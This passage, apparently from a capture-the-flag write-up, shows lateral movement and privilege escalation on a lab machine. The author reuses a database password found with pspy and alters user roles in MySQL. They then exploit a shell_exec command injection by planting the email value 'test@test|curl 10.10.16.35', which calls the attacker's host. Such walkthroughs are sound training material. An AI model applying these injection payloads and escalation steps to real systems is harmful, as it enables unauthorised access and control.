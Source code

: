 ```bash
ssh charlie@$IP -i charlie.id_rsa 
charlie@extension:~$ id
uid=1001(charlie) gid=1001(charlie) groups=1001(charlie)
charlie@extension:~$ su jean
Password: 
jean@extension:/home/charlie$
```

---

## Lateral Movement - PrivEsc

- Ran pspy, found a task being run updating a database using password `toor`.
- `mysql` does not exist on the target machine so I forwarded port 3306 to my attacking machine through the SSH connection and started enumerating the database

- Since I now can control the database, I update one of the users I owned `fredrick@snippet.htb` user type to be Manager

```sql
MySQL [webapp]> UPDATE users SET user_type = "Manager"  WHERE email="fredrick@snippet.htb";
Query OK, 1 row affected (0.079 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```
- Also found a vulnerable php file using `shell_exec` at `app/Http/Controllers/AdminController.php`:

```bash
jean@extension:~/projects/laravel-app$ grep -iR shell_exec
... 
app/Http/Controllers/AdminController.php:            $res = shell_exec("ping -c1 -W1 $domain > /dev/null && echo 'Mail is valid!' || echo 'Mail is not valid!'");
```

- After reading the code at `AdminController.php`, a hash of a secret key with the email is compared to a value `cs` being sent witht the POST payload in account validation, so instead of calculating this `cs` value, I used mysql to create a new account with a poisoned email to exploit `shell_exec`:

```sql
MySQL [webapp]> describe users;

+-------------------+---------------------+------+-----+---------+-------+
| Field             | Type                | Null | Key | Default | Extra |
+-------------------+---------------------+------+-----+---------+-------+
| id                | bigint(20) unsigned | NO   |     | NULL    |       |
| name              | varchar(255)        | NO   |     | NULL    |       |
| email             | varchar(255)        | NO   |     | NULL    |       |
| email_verified_at | timestamp           | YES  |     | NULL    |       |
| password          | varchar(255)        | NO   |     | NULL    |       |
| remember_token    | varchar(100)        | YES  |     | NULL    |       |
| created_at        | timestamp           | YES  |     | NULL    |       |
| updated_at        | timestamp           | YES  |     | NULL    |       |
| user_type         | varchar(255)        | NO   |     | Member  |       |
+-------------------+---------------------+------+-----+---------+-------+
9 rows in set (0.076 sec)

MySQL [webapp]> INSERT INTO users (id, name, email, password, user_type) VALUES (900, "test", "test@test|curl 10.10.16.35", "test", "Member");
Query OK, 1 row affected (0.070 sec)
```
